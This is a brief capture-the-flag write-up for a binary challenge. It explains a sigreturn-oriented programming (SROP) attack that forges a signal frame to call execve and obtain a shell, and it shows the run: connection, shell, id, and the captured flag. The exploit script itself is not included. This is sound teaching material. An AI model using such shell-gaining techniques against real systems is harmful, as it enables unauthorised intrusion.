 # Solution

The binary has a function `am` that contains instructions to initiate custom syscalls. We can issue a `sigreturn` syscall which loads registers from the stack, so we build a frame to load our custom register values and issue another `execve` syscall to leverage a shell.

The mechanism used in this challenge is called SROP.

Solution is in `sig-solution.py`.

```sh
$ python3 sig-solution.py 
[+] Opening connection to localhost on port 9000: Done
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
ibctf{n0t_int-but-r0p-1247321}
```

